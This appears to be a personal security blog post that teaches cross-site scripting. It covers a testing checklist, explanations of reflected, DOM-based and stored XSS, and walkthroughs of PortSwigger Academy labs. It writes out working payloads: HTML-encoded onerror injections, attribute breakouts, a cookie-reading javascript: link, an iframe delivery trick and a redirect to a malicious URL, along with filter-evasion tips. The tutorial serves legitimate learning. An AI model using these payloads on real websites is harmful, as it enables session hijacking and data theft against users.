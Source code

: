 ```yaml
---
layout: post
title: XSS (Cross site scripting)
subtitle: Victim visit malicious URL/site to trigger the payload made of JavaScript. Causing their session to be controlled or data to be stolen
date: 2025-09-15 19:15
author: Ren Sie
comments: true
category: script-input
thumbnail-img: /assets/img/githubpost/xxs_thumb.png
---
```


Cross-site scripting (XSS) is a web security flaw where attackers inject malicious scripts into trusted websites, which then execute in the browsers of unsuspecting users. This exploitation allows attackers to steal sensitive data, hijack user sessions, or manipulate website content by taking advantage of web applications that do not properly validate or sanitize user input.



{: .box-note}
**Note:** 💡 During the testing, use `print()` `prompt("text")` instead of `alert()` since `alert()` is commonly detected and filtered. <br> When testing for XXS, test for html injection first because it’s more likely to work
E.g., \<h1\>test\</h1\>

### Checklist
<details markdown="1">
  <summary>Click me to expand checklist</summary>  

1. **Is input reflected in the response?**

2. **Can we inject HTML?**
   - E.g., `https[://]victim[.]com/search?user=<img src=x onerror=prompt("XSS")>`
    
3. **Any weaknesses in the Content Security Policy (CSP)?**
   - Use of unsafe directives which allow execution of inline scripts or eval() functions, bypassing CSP protections. <br> E.g.,`Content-Security-Policy: script-src 'self' 'unsafe-inline' 'unsafe-eval';`
   - Allowing broad sources or wildcards in directives (e.g., script-src), which permits potentially untrusted external scripts to run. <br> E.g., `Content-Security-Policy: script-src *;`
   - Inclusion of compromised or vulnerable third-party domains in trusted sources, such as JSONP endpoints that can be exploited to inject malicious scripts. <br> E.g., `https[://]third-party_domain[.]com/jsonp?callback=prompt("xss is available!")`
   - Omitting strict directives for resources like object-src or failing to restrict nonces and hashes properly which can allow script injection.
   - Weak or predictable nonces (e.g., 'nonce-12345') that attackers can guess or reproduce to bypass CSP restrictions.
 
4. **Can we use events (e.g. onload, onerror)?**
   - `<body onload="prompt('XSS via onload!')"> Welcome to the website! </body>`
   - `<a href="https[://]trusted[.]com/search?user=<img src=x onerror=prompt("XXS Available")>"> Click me! </a>`

5. **Are there any filtered or escaped characters?**
   - E.g., `<`, `>`, `"`, `'`, `javascript:`, `alert()`
   - Refer to [XSS Filter Evasion Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html)

6. **Is input stored and then later rendered?**

7. **Can we inject into non-changing values (e.g. usernames, comments, etc.)?**
   - E.g., web application allows user input and stores them without proper sanitization.

8. **Any input collected from a third party (e.g. account information)?**
   - Third-party inputs refer to any data or content that comes from an external source (via third-party api) or from other users.

9. Is the version of the framework or dependency vulnerable?
   - [OWASP Dependency-Check](https://github.com/dependency-check/DependencyCheck)
   - [OWASP Dependency-Check Installation and Scanning First project](https://www.youtube.com/watch?v=hWiI700y3J0)

</details>

### Reflected XXS
Inject payload into the HTTP request. And once the web server receive the request, it will response with the payload to sender’s browser. It relies on URL to make user fall for the attack.

### Dom-Based XXS
Client-side has vulnerable JavaScript. It doesn’t involve with the server-side, completely rely on client’s browser to execute the payload.
One quick check is turn on the developer tool, input and execute a simple prompt or alert script, see if there’s any network interaction with the server.

{: .box-note}
**Note:** 🚨 Inspecting Network page in the developer tab while sending input. If there’s no external communication happens, it indicates it is Dom-Based XXS.

#### Page Redirect
User could inject the following code into a vulnerable website, causing an automatic redirect to a malicious site. When a victim loads the page with this injected script, they will be automatically redirected to <$url>.
~~~
src=x onerror="window.location.href='<$url>'"
~~~

#### HTML Events
<details markdown="1">
<summary>Click me to reveal the chart of HTML events</summary>

| Event | Trigger Condition | Elements | Notes |
| :------ | :------ | :------ | :------ |
| onmouseover | When mouse pointer moves over an element | Most HTML elements including input | Used for hover interaction |
| onmouseout | When mouse pointer leaves an element | Most HTML elements including input | |
| onmousedown | When mouse button pressed over an element | Most elements | |
| onmouseup | When mouse button released over an element | Most elements | |
| onclick | When user clicks on an element | Most elements | Commonly used event |
| onfocus | When element receives focus (tab, click, or programmatic) | Input, textarea, select | Particularly useful for inputs |
| onblur | When element loses focus | Input, textarea, select | |
| onchange | When element's value is changed and the control loses focus | Input, select, textarea | Fires after commit of the change |
| oninput | When the user modifies the value | Input, textarea | Fires immediately as value changes |
| onerror | When loading of resource fails | img, script, iframe, media tags | Does not fire on input elements |
| onload | When resource loads successfully | body, img, iframe, script, media | Does not fire on input elements |
| onsubmit | When form is submitted | form element | |
| onkeydown | When a key is pressed | Most elements | |
| onkeyup | When a key is released | Most elements | |
  
</details>


### Store
Payload is stored in the database, and victim’s browser will retrieve it once it visit the page. For instance:  
1. In the attacker’s browser leave html injection comment: \<h1\>test\</h1\>.
2. Visit the same page from victim’s browser

![store_xxs.png](/assets/img/githubpost/xxs_1.png)

### Labs
Just for demostration, I completed a few labs on [PortSwigger Academy](https://portswigger.net/web-security/all-labs#cross-site-scripting) to show how this vulnerability can lead to:

#### 1. DOM-based XSS in document.write sink using source location.search
The target application use `document.write()` function to display content from `location.search`, which comes from the URL query string. Allows users to modify the URL, and to inject and execute arbitrary scripts in the page.
<details markdown="1">
  <summary>Click me to expand the process</summary>  
1. Enter random input (e.g., 123456) in the user input (URL query)
~~~
https[://]web-security-academy.net/?search=123456
~~~

2. Right-click on the webpage and open the inspection tab

3. Press `Crtl+F` to open search function in inspection tab, and search for input (e.g., 123456)
~~~
Result: <img src="/resources/images/tracker[.]gif?searchTerms=123456">
~~~

4. After knowing the syntax. We can add a closing angle bracket to close up the img tag, and add a new tag with the payload. I use HTML encoding to bypass the filter.
~~~
URL: "><script src=x onerror="&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041"></script>
Result: <img src="/resources/images/tracker[.]gif?searchTerms=">
        <script src="x" onerror="javascript:alert('XSS')"></script>
~~~
</details>
-

#### 2. DOM XSS in innerHTML sink using source location.search
The application It assigns data from `location.search` to `innerHTML`, which updates the contents of a `<div>`. Since the URL can be controlled by the user, they can inject malicious HTML or scripts.
<details markdown="1">
  <summary>Click me to expand the process</summary>  
1. Enter random input (e.g., 123456) in the user input (URL query)
~~~
https[://]web-security-academy.net/?search=123456
~~~
  
2. Right-click on the webpage and open the inspection tab

3. Press `Crtl+F` to open search function in inspection tab, and search for input (e.g., 123456)
~~~
Result: <span id="searchMessage">123456</span>
~~~

4. After knowing the syntax. I can add a closing tag to close up `<span>`, and add a new `<img>` tag with the payload. I use HTML encoding to bypass the filter.
~~~
URL: https[://]web-security-academy[.]net/?search=</span><img src=x onerror="&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041">
Result: <span id="searchMessage"><img src="x" onerror="javascript:alert('XSS')"></span> <span>'</span> == $0
~~~
</details>
-

#### 3. DOM XSS in jQuery anchor href attribute sink using location.search source
In this instance, jQuery’s `$` selector is used to find a link and set its `href` using data from `location.search`, which comes from the URL query string.
<details markdown="1">
  <summary>Click me to expand the process</summary>
1. Right-click on the webpage and open the inspection tab. I search for `location.search`, which led me to this script:
>  $(function() {  
>      $('#backLink').attr("href", (new URLSearchParams(window.location.search)).get('returnPath'));  
>      });
  
2. I also notice that the URL contains the `returnPath` query parameter, which aligns with the script. Which uses this query parameter to set the href attribute of the backlink.
~~~
URL: https[://]web-security-academy[.]net/feedback?returnPath=/
~~~

3. Insert the payload into the `returnPath` query parameter.
~~~
URL: https[://]web-security-academy[.]net/feedback?returnPath=javascript:prompt(document.cookie)
Result: <a id="backLink" href="javascript:prompt(document.cookie)">Back</a>
~~~
</details>
-

#### 4. Stored XSS into anchor href attribute with double quotes HTML-encoded
This instance contains a stored XSS vulnerability in the comment section. I submit a comment that triggers an alert when the author’s name is clicked.
<details markdown="1">
  <summary>Click me to expand the process</summary>
1. In the comment section, there are four fields (Comment, Name, Email, Website). After filling out all the fields and submitting my comment, I notice that the Name section contains an external link, which is the website I enter while filling out the form.

2. I use the search function in the inspection tab to look for the website I enter. And I find:
~~~
Result: <a id="author" href="Website.com">Name</a>
~~~

3. Now, I determine that the href attribute accepts user input, so I enter a simple payload into the Website field. It is confirmed that the alert will be triggered when I click on the Name.
~~~
Website: javascript:alert('Zebra!')
Result: <a id="author" href="javascript:alert('Zebra!')">World Smartest Zebra</a>
~~~
</details>
-

#### 5. Reflected XSS into attribute with angle brackets HTML-encoded
The application contains a reflected XSS vulnerability in the search blog feature, where angle brackets are HTML-encoded. I inject an attribute via XSS that triggers an alert function.
<details markdown="1">
  <summary>Click me to expand the process</summary>
1. Enter random input (e.g., test123) in the user input (URL query)
~~~
URL: https[://]web-security-academy[.]net/?search=test123
~~~

2. Utilize search function in inspection tab, and search for input (e.g., test123)
~~~
Result: <input type="text" placeholder="Search the blog..." name="search" value="test123">
~~~

3. After learning that our input is within a double-quoted attribute, we can try to bypass the double-quoted attributes by breaking out of the attribute value with the injection of double quotes or equivalent encodings, and then adding the HTML events that triggers the payload.
~~~
URL: https[://]web-security-academy[.]net/?search=test123" onmouseover="alert(test)
Result: <input type="text" placeholder="Search the blog..." name="search" value="test123" onmouseover="alert(test)">
~~~
{: .box-note}
**Note:** The `value` attribute is closed early by the injected quote, and `onmouseover="alert(1)` is interpreted as a new `onmouseover` attribute on the <input> tag.

4. Once I hover the cursor over the search bar, it triggers the alert. I identify the XSS vulnerability.
</details>
-

#### 5. DOM XSS in jQuery selector sink using a hashchange event
There is a DOM-based XSS vulnerability on the home page, where jQuery’s `$()` selector is used to auto-scroll to a post, with the title passed through `location.hash`.
<details markdown="1">
  <summary>Click me to expand the process</summary>
1. Firstly, I search for `$()` in the inspection tab, and I find the syntax for this function. Which listens for hash changes in the URL (`/#`) and scrolls the corresponding blog post into view based on the hash value.
  >  $(window).on('hashchange', function(){  
  >    var post = $('section.blog-list h2:contains(' + decodeURIComponent(window.location.hash.slice(1)) + ')');  
  >    if (post) post.get(0).scrollIntoView();  
  >  });  
  
2. I append a simple XSS test payload with a hashtag to the URL, and the print function is triggered. The XSS vulnerability in this application is confirmed.
~~~
URL: https[://]web-security-academy[.]net/#<img src=x onerror=print()>
~~~

3. In the case that I want to deliver this payload to others, I utilize `iframe`, `onload`, `img src`, and `onerror` to trigger the payload once they open the page.
~~~
URL: <iframe src="https[://]web-security-academy[.]net/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>
~~~
{: .box-note}
**Note:** The `onload` attribute of the `iframe` runs JavaScript to append the print payload directly into the URL fragment after the page loads. The vulnerable page inside the iframe then reads this fragment (<img src=x onerror=print()>) and executes the injected payload.

</details>
-

#### 6. Reflected XSS into a JavaScript string with angle brackets HTML encoded
In this instance, the application is vulnerable to reflected XSS in the search query tracking functionality, where angle brackets are encoded. The reflection occurs inside a JavaScript string. I breaks out of the JavaScript string and triggers the alert() function, to demonstrate the vulnerability.
